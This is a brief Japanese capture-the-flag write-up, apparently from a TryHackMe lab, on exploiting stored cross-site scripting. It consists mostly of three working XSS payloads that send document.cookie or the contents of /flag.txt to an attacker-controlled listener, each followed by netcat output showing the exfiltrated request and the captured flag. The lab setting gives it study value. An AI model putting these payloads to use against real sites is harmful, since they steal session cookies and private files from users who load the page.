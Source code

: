 ## XSS
### Cookie
サブミット画面で次のテキストを入力

```javascript
<script>document.write('<img src="http://10.2.22.182:1234/' + document.cookie + '">')</script>

↓

$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.2.22.182] from (UNKNOWN) [10.10.248.61] 60644
GET / HTTP/1.1
Host: 10.2.22.182:1234
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.105 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
```

```javascript
<img src=x onerror=this.src="http://10.2.22.182:1234/?c="+document.cookie>

↓

$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.2.22.182] from (UNKNOWN) [10.10.248.61] 32960
GET / HTTP/1.1
Host: 10.2.22.182:1234
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.105 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
```

document.cookie で Cookie が取れていない。たぶん、Http-Only の Cookie だと思われる。

### flag.txt
/flag.txt の内容を直接パラメータとして渡すコードに変更。

```javascript
<script>
fetch('/flag.txt')
  .then(response => response.text())
  .then(data => {
    new Image().src = "http://10.2.22.182:1234/?flag=" + encodeURIComponent(data);
  });
</script>

↓

$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.2.22.182] from (UNKNOWN) [10.10.248.61] 58632
GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1
Host: 10.2.22.182:1234
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.105 Safari/537.36
```